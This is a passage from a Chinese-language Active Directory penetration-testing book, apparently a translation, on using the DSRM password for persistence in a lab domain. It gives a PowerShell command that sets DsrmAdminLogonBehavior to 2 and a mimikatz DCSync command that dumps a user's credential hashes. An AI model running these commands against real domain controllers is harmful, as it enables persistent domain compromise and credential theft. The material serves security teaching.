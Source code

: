 图 7.36 – DSRM 密码重置和同步场景

我们可以通过转储并比较用户哈希来确认同步是否成功：

![图 7.37 – DSRM 密码已与 jaime.lannister 账户的密码同步](img/B18964_07_37.jpg)

图 7.37 – DSRM 密码已与 jaime.lannister 账户的密码同步

使用 DSRM 密码登录时，有三种可能的场景。在域管理员权限下，攻击者可以通过将`HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`中的注册表键值设置为以下之一，强制选择所需的选项：

+   **0（默认值）**：只有当域控制器处于 DSRM 模式时，才允许登录

+   `1`：只有在停止目录服务时才允许登录

+   `2`：可以自由登录，没有任何限制

使用 PowerShell，攻击者将把注册表值设置为`2`：

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

然后，攻击者将执行哈希传递攻击，以域控制器的本地管理员身份启动 Shell，并运行 DCSync 攻击：

```
mimikatz.exe "lsadump::dcsync /domain:sevenkingdoms.local /dc:kingslanding /user:robert.baratheon /csv"
```

这里演示了 DCSync 的结果：

![图 7.38 – 来自 DSRM 登录会话的 DCSync 结果](img/B18964_07_38.jpg)
